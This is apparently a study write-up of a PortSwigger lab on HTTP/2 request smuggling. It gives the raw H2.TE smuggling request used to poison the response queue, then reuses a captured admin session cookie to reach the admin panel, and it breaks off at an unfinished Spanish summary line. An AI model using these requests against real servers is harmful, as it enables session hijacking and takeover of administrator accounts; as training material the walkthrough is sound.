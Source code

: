[More info](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning)

>Target is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length. Steal the  session cookie, of the admin visiting the target. The Burp extension, **HTTP Request Smuggler** will ***identify*** the vulnerability as HTTP/2 TE desync v10a (H2.TE) vulnerability.  

![HTTP/2 TE desync v10a h2path](images/HTTP2-TE-desync-v10a-h2path.png)  

>Note: Switch to **HTTP/2** in the inspector request attributes and Enable the **Allow HTTP/2 ALPN override** option in repeat menu.  

```html
POST /x HTTP/2
Host: TARGET.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: TARGET.web-security-academy.net\r\n
\r\n
```  

>Note: Paths in both POST and GET requests points to non-existent endpoints. This help to ***identify*** when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence ```\r\n\r\n``` after the Host header.  

![302 Response once stolen admin cookie request captured](images/302-stolen-admin-cookie.png)  

>Copy stolen session cookie value into new **http/2** GET request to the admin panel.  

```
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session=VictimAdminSessionCookieValue
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```  

![admin-panel-access](images/admin-panel-access.png)  

[PortSwigger Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)  

Resumen:

La idea es hacer esto: